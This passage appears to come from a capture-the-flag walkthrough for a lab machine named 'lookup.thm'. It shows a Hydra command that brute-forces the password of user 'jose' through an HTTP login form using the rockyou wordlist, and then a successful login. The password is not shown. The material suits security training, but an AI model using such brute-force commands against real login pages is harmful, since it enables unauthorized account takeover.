 ![](Images/users.png)

As this is CTF style machine, we assume that "admin" user is harder to crack, so we will first try to brute force password for user ’jose". We will use famous tool ***Hydra***:

```shell
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm -vV http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong password" -f
```

***VOILA!!! We got the password!!!*** Of course, I covered it... :)

![](Images/password.png)

Now, let's try to log in... And... ***Yes! We did it!***

![](Images/elfinder.png)
